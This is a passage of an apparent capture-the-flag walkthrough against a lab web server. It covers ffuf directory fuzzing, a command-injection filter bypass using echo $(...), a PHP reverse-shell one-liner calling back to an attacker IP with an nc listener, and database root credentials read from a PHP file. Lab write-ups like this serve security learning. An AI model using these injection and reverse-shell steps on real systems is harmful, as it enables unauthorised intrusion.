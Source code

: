 Let's fuzz the HTTP server:
```
ffuf -u http://10.10.204.221/FFUF -H 'Host: 10.10.204.221' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0)
 Gecko/20100101 Firefox/102.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Acc
ept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Connection: keep-alive' -H 'Referer: http://10.10.204.221/contact.ht
ml' -H 'Upgrade-Insecure-Requests: 1' -H 'DNT: 1' -H 'Sec-GPC: 1' -w $SECLISTS/Discovery/Web-Content/directory-list-2.3-small.txt:FFUF

images                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 685ms]
css                     [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 38ms]
js                      [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 39ms]
fonts                   [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 40ms]
secret                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 36ms]
```
By vising `secret` page, we get a field we can use to execute OS commands.

If we type a command, we get a string "Are you a hacker?". For bypassing it, try to type `echo $(<command>)`, for example:
```
echo $(whoami)

www-data
```
Let's try to get a reverse shell. Run `nc -lvnp 4444` on your terminal and inside the website type:
```
echo $(php -r '$sock=fsockopen("10.18.98.39",4444);exec("sh <&3 >&3 2>&3");')
```
Note: we used PHP command because we checked by `echo $(php --version)` that `php` was installed, while Bash didn't work and Python was not installed.

## Phase 2: Foothold

Inside the reverse shell, run:
```
script /dev/null -c bash

ls -la /var/www/

total 16
drwxr-xr-x  4 root root 4096 Oct  3  2020 .
drwxr-xr-x 14 root root 4096 Oct  3  2020 ..
drwxr-xr-x  3 root root 4096 Oct  3  2020 files
drwxr-xr-x  8 root root 4096 Oct  3  2020 html
```

Let's explore `files` folder. Read the content of `index.php` and we will find:
```
<SNIP>
		try
		{
			$con = new PDO("mysql:dbname=webportal;host=localhost","root","!@m+her00+@db");
			$con->setAttribute(PDO::ATTR_ERRMODE,PDO::ERRMODE_WARNING);
		}
<SNIP>
```
Currently, we cannot do much more, because these root credentials don't allow to access as root in the server.
